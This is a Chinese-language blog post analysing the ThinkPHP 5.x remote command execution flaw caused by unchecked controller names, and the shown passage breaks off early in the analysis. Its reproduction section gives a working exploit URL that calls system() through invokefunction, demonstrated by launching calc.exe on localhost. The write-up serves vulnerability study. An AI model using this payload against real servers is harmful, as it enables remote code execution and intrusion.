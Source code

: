 ```yaml
---
layout:     post
title:      "ThinkPHP5.x远程命令执行漏洞分析"
subtitle:   "ThinkPHP5.x远程命令执行漏洞分析"
date:       2018-12-20 12:00:00
author:     "T-bag"
header-img: "img/post-bg-unix-linux.jpg"
header-mask: 0.3
catalog:    true
tags:
    - web安全
    - 漏洞分析
    - Thinkphp
---
```


### 前言

2018年12月9日，ThinkPHP5.*版本发布[安全更新](https://blog.thinkphp.cn/869075)，本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ffd24e458-069f-4174-8aed-7a7af0371dbb%2F95B7CC09-C7CC-4317-A8F3-8D9268ED9D57.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ffd24e458-069f-4174-8aed-7a7af0371dbb%2F95B7CC09-C7CC-4317-A8F3-8D9268ED9D57.png)

## 漏洞复现

环境

    <http://www.thinkphp.cn/down/1260.html> //官网下载ThinkPHP5.0.22完整版
    PHP-7.0.12-NTS + Apache

Payload:
这里vars[0]为call_user_func_array调用的函数名，vars[1][]为调用的函数参数。

    <http://127.0.0.1/thinkphp_5.0.22_with_extend/public/index.php?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=C:\\WINDOWS\\System32\\calc.exe>

将下载的thinkphp解压到自己的web应用目录中，访问上述Payload，即可触发漏洞，弹出计算器。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F31c65d64-9161-41e8-9bbf-19a42841be3e%2F49FEF24A-38F8-47D3-B35B-544E7E4D93BA.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F31c65d64-9161-41e8-9bbf-19a42841be3e%2F49FEF24A-38F8-47D3-B35B-544E7E4D93BA.png)

phpinfo()

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F7484bd2f-3311-4f16-b3cb-951e6c0bd5d9%2FB7CADF14-FA79-4FEE-9584-5CEF4BF31346.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F7484bd2f-3311-4f16-b3cb-951e6c0bd5d9%2FB7CADF14-FA79-4FEE-9584-5CEF4BF31346.png)

## 漏洞分析

观察payload，可以发现其是thinkPHP兼容模式的路由，其格式类似如下：

    <http://localhost/?s=[模块/控制器/操作?]参数1=值1&参数2=值2>

其对应的控制器类似：

    <?php
    namespace app\\index\\controller; //模块名为index
    